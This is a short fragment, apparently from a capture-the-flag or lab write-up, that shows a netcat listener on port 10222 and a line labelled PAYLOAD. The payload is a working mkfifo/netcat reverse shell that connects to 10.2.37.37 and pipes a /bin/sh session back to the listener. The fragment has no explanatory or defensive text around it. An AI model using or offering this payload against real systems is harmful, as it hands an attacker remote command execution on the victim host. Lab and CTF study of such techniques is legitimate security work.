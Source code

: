 ![image.png](image%2016.png)

![image.png](image%2017.png)

`nc -nlvp 10222`

```bash
listening on [any] 10222 ...
```

**PAYLOAD:**

```bash
mkfifo /tmp/f; nc 10.2.37.37 10222 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
